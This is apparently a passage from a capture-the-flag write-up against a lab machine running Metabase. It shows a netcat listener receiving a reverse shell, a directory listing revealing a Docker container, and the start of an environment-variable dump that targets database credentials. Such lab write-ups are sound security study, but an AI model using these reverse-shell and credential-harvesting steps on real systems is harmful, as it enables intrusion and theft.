 ```
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}

```

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.177] from (UNKNOWN) [10.10.11.233] 58382
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
45ea7123cf94:/$ ls -al /
ls -al /
total 88
drwxr-xr-x    1 root     root          4096 Oct 21 15:36 .
drwxr-xr-x    1 root     root          4096 Oct 21 15:36 ..
-rwxr-xr-x    1 root     root             0 Oct 21 15:36 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29 20:40 app
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 bin
drwxr-xr-x    5 root     root           340 Oct 21 15:36 dev
drwxr-xr-x    1 root     root          4096 Oct 21 15:36 etc
drwxr-xr-x    1 root     root          4096 Aug  3 12:16 home
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 lib
drwxr-xr-x    5 root     root          4096 Jun 14 15:03 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3 12:17 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 mnt
drwxr-xr-x    1 root     root          4096 Jun 15 05:12 opt
drwxrwxrwx    1 root     root          4096 Aug  7 11:10 plugins
dr-xr-xr-x  211 root     root             0 Oct 21 15:36 proc
drwx------    1 root     root          4096 Aug  3 12:26 root
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 run
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 sbin
drwxr-xr-x    2 root     root          4096 Jun 14 15:03 srv
dr-xr-xr-x   13 root     root             0 Oct 21 15:36 sys
drwxrwxrwt    1 root     root          4096 Oct 21 15:51 tmp
drwxr-xr-x    1 root     root          4096 Jun 29 20:39 usr
drwxr-xr-x    1 root     root          4096 Jun 14 15:03 var
45ea7123cf94:/$ 

```

The script successfully executed, and we received a reverse shell. However, we noticed that we were within a Docker shell. This was evident from the presence of the file `.dockerenv` in root directory.

```
45ea7123cf94:/$ env                                                                                                                                                                          
env                                                                                                                                                                                          
SHELL=/bin/sh                                                                                                                                                                                
MB_DB_PASS=                                                                                                                                                                                  
HOSTNAME=45ea7123cf94                                                                                                                                                                        
LANGUAGE=en_US:en                                                                                                                                                                            
MB_JETTY_HOST=0.0.0.0                                                                                                                                                                        
```